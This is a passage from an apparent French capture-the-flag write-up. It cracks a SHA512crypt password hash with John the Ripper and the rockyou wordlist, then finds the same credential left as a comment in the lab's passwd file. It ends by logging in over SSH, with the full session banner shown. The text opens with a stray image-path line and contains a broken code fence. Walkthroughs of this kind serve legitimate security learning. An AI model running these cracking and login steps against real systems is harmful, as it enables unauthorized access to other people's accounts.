 > $6 => SH512

### Option 1: on craque le mot de passe

```sh
# sudo john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```su

### Option 2 : on utilise betement le commentaire laissé dans le fichier passwd !

```
#falconfeast:rootpassword
```

## SSH 

### test de connection ssh `falconfeast:rootpassword` : SUCCESS

```sh
# ssh falconfeast@10.10.115.164
The authenticity of host '10.10.115.164 (10.10.115.164)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.115.164' (ECDSA) to the list of known hosts.
falconfeast@10.10.115.164's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed May 13 01:17:42 IST 2020

  System load:  0.0               Processes:           86
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.115.164
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
```

